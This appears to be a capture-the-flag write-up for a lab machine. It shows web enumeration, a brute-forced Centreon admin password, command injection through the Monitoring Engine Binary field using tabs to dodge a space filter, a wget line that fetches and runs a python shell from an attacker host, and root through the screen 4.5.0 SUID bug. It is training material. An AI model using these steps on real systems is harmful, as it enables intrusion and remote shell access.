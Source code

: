 ![](./logo.png)

# USER

The `nmap` scan shows the presence of a `http` service. After running the normal enumeration scripts a directory structure was discovered as so:

```
/index.html (Status: 200)
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```

The `aa.php` and `panel.php` produce rubbish, but after posting to to `10.10.10.157/monitoring/` the output is produced below:

```
HTTP/1.1 200 OK
Date: Mon, 30 Sep 2019 15:35:17 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Wed, 03 Jul 2019 22:47:23 GMT
ETag: "9a-58ccea50ba4c6-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 154
Connection: close
Content-Type: text/html

<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

This provides us a new endpoint `/centreon`. This is a monitoring program that allows us to view certain processes present on the machine. Running a quick brute force script created in python gives us the password `password1`.

```
admin:password1
```

Looking at `exploit-db` we have a remote code execution script:

```
Centreon 19.04  - Remote Code Execution                          | exploits/php/webapps/47069.py
```

This does not work but by following the author's design [here](
https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/), I can manually trigger an exploit.

Some characters are disabled so we have to be crafty.

In his walkthrough it shows the location we need to use:

![](./_images/input_location.png)

We can run this through `burp suite`, to see the output.

The image below shows the output when changing the `Monitoring Engine Binary` to `$(whoami)`.

![](./_images/rce.png)

As you can see we have an RCE vulnerability!

Spaces are banned characters, therefore, using tab characters is how we will execute our payload.

The first step is to download a `python` shell to the `/tmp`.
```
wget	10.10.14.14:8000/shell.py	>	/tmp/s.py&echo
```

Then run it using `python`:

```
python	/tmp/s.py
```

This will spawn a shell as `www-data`!

In order to priv esc our enum script shows `/bin/screen-4.5.0` as a SUID binary. 

This can be exploited using this [bug](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html).

This bug means `screen` opens or creates any log file with full root privileges. For example the PoC shows it working:


```
$ screen -D -m -L bla.bla echo fail
$ ls -l bla.bla
-rw-rw---- 1 root buczek 6 Jan 24 19:58 bla.bla
$ cat bla.bla
fail
```

This means we can run a shell using this bug. After a very quick Google Search we can find an [exploit](https://www.exploit-db.com/exploits/41154). Running this elevates us straight to `root`. This lets us `cat` the `user.txt` and `root.txt`!
